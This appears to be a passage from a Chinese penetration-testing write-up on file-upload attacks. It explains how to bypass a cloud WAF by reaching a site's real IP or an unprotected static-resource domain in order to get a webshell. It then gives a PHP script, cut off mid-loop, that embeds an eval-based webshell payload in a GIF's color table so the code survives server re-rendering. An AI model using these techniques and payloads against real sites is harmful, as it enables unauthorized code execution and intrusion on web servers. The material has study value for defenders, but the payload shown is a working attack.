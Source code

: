 ![image.png](./文件上传.assets/2023_05_19_14_38_12_KNE6A528.png)
![image.png](./文件上传.assets/2023_05_19_14_38_12_1R06tmHe.png)
云WAF的流量绕过也可以通过真实IP或者其他解析到站点的域名，因为管理员可能没有对所有的域名和IP走云WAF，就可以只绕过上传php文件的拦截，后面的流量检测是没有的。最开始拿到shell也是走一个加速域名(shell后查看了图片渲染处的源码，为后续直接对阿里云的POC构造省下了好多事)，这里估计是开发想着所有流量都过云WAF会很慢，于是把很多静态资源放在了另外一个域名上，但是这个域名并没有受到云WAF保护，没有云WAF保护，利用上面的二次渲染绕过直接getshell：
![image.png](./文件上传.assets/2023_05_19_14_38_12_uZkIBsCF.png)
#### GIF二次渲染
常见的方法是将GIF上传后的文件下载回来与源文件对比，找到未进行修改的部分插入PHP代码，但是操作起来很不方便。有没有类似JPG实现的自动脚本呢？在[一篇博客](https://blog.isec.pl/injection-points-in-popular-image-formats/)中发现了实现方法，原脚本将生成一个纯色的GIF图，将脚本修改后可以对任意GIF文件进行代码注入：
```php
<?php 
  // createGIFwithGlobalColorTable.php 
  $_file="example.gif"; 
  //保存的文件名 
	$_payload="00php /*123456789abcdefgh<?php 12345*
  /eval(\$_GET[1]);/*ijk*/eval(\$_REQUEST['11pass'])?>";
	// POC 
	$_width=200; 
	$_height=200; 
	if(strlen($_payload)%3!=0){ 
    echo "payload%3==0 !"; 
    exit(); 
  } 
	$im = imagecreate($_width, $_height); 
	// 创建新的gif图 
	$im = imagecreatefromstring(file_get_contents("SwipeTeachingCalloutImage.layoutdir-LTR.gif")); //使用提供的Gif图 
	$_hex=unpack('H*',$_payload); 
	$colors_hex=str_split($_hex[1], 6); 
	for($i=0; $i < count($colors_hex); $i++){ 
```